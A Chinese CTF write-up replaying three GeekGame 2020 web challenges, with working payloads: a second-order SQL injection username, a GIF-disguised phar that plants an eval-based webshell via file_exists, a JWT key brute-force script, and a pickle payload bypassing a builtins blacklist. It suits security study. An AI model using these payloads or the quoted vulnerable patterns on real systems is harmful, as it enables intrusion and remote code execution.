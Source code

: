 # GeekGame 2020 WEB 复现


## 前言

被川大的同学叫来打这个比赛

嗯没错这次比赛非常神奇，水出来的 RE 和 Crypto 都比 WEB 多...

比赛的时候就做出来一道 WEB（真的菜



## 二次注入

真的是这次比赛最简单的一道题了

最常规的二次注入

先注册一个名为 `admin'#` 的用户，登录后修改密码

再用 `admin` 和修改后的密码登录即可

> 比赛的时候没发现有源码泄露，直接看 SQL 语句可能更直观一些
>
> ```php
> $x=$db->execute("update users set password=? where username='$username' ",['s',&$password]);
> ```



## 反序列化？

打开是个文件上传，只能上传图片，并且有个 `vulnerable.php` 

```php
<?php
highlight_file(__FILE__);
if (isset($_GET['filename'])) {
    $filename = $_GET['filename'];
} else {
    $filename = "";
}

class Flag
{
    private $code;

    function __destruct()
    {
        // TODO: Implement __destruct() method.
        eval($this->code);
    }
}

if (file_exists($filename)) {
    echo "文件存在的呢;";
} else {
    echo "啊这，文件不在哦";
}
?>
```

题名加了个问号，那就不是反序列化，但是还不知道怎么做

看了官方 WP，这真的涉及到我的知识盲区了

`vulnerable.php` 中用到了 `file_exists` 函数

> 自 PHP 5.0.0 起, 此函数也用于某些 URL 包装器
>
> `file_exists`函数在检查 phar 包的时候会将其解析

用如下 payload 生成 phar 包

```php
<?php

class Flag
{
    private $code;

    function __construct($my_code)
    {
        $this->code = $my_code;
    }

    function __destruct()
    {
        eval($this->code);
    }
}



$phar = new Phar('a.phar');
$phar->startBuffering();
$phar->setStub('GIF89a<?php __HALT_COMPILER();?>');
$object = new Flag('eval($_REQUEST["cmd"]);');
$phar->setMetadata($object);
$phar->addFromString('a.txt', 'a');
$phar->stopBuffering();
```

注意添加文件头绕过文件类型检测，生成后改后缀为 gif 上传，再用 phar 协议读取即可

```
vulnerable.php?filename=phar://upload/a.gif
```



## ezcode

直到比赛结束只有一解的题

打开可以注册和登录，注册返回一串 JWT，刚开始毫无思路，后来给了一个 hint

```
hint ：top1000
```

？top1000 弱口令吗

跑了一下果然跑出来了 key

```python
import jwt

token = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjEyMzQifQ.f_U2qBN5qFbsWyIQhfIGYw2aDzX1QTKefGn-QuZ8FIw'

with open('top1000.txt', 'r') as f:
    top1000 = [i.strip() for i in f.readlines()]
for i in top1000:
    test_token = jwt.encode({'username':'1234'}, algorithm='HS256', key=i).decode()
    if test_token == token:
        print('Found it!')
        print(i)
        print(jwt.encode({'username':'admin'}, algorithm='HS256', key=i).decode())
        break
```

![JWT](JWT.png "爆破 JWT Key 并修改内容")

用生成的 JWT 登录发现还有第二关，看一下源码有注释

```python
want2know=xxx

class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {
        'sys','eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit','getattr'
        }

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))

def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()

...

        pickle_data=request.form.get('data')
        
        if pickle_data==None:
            return open('templates/pickle.html').read()

        try:
            pickle_data=base64.b64decode(pickle_data.encode())


            op_blackli=[b'R']

            for op in op_blackli:
                if op in pickle_data:
                    return '数据非法！'+op.decode()
            data=restricted_loads(pickle_data)

        except Exception:
            
            return "请输入正确的数据格式！"

        try:
            secret=request.form.get('secret')
        except Exception:
            return open('templates/pickle.html')
        
        if want2know==secret:
            return flag
        else:
            return '欢迎使用HACHp1的pickle测试工具！'
    else:
        return '没有权限查看！\n'
```

是一个 pickle 反序列化，只看出来禁止用 `R` 执行函数，然后就不会了（

看了 WP 这里是利用 `globals` 或 `locals` 函数直接修改 `want2know` 使其与输入的 `secret` 相等

出题壬推荐用 [pker](https://github.com/eddieivan01/pker) 构建序列化

```python
glo_dic=INST('builtins','globals')
glo_dic['want2know']='test'
return
```

生成 payload

```
b"(ibuiltins\nglobals\np0\n0g0\nS'want2know'\nS'test'\ns."
```

base64 一下即可



## 总结

第一道 WEB 比较照顾我这样的菜🐶

后两道 WEB 质量还是不错的，都涉及到了我不会的知识点

phar 和 pickle 似乎都是第一次做到

除了做不出来，体验挺不错的（
